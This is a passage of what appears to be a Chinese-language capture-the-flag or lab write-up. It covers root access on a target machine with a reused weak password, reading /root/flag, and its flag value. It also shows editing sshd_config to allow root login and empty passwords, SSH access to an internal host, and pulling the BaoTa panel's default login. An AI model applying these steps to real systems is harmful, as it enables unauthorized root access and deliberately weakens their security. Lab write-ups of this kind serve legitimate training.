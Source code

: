 ```bash
su dockeruser
admin123

cat /root/flag
```

##### 提权成功

```bash
root@08:/home/cf1# cd 
root@08:~# ls
flag
root@08:~# cat flag
flag{moon-9baf8a3d7c378f56fd1dbc1f09c16fab}
```

#### flag

> flag{moon-9baf8a3d7c378f56fd1dbc1f09c16fab}

#### 开启ssh 密码登录

```bash
vim /etc/ssh/sshd_config

ListenAddress 0.0.0.0
PermitRootLogin yes
PasswordAuthentication yes
PermitEmptyPasswords yes

vim /etc/ssh/ssh_config

PasswordAuthentication yes
PermitRootLogin yes
PermitEmptyPasswords yes

systemctl restart sshd
```

##### ssh

```bash
ssh dockeruser@10.223.82.21
admin123
```



### 宝塔

http://www.cf1.com:8888/login

```bash
/etc/init.d/bt default
```
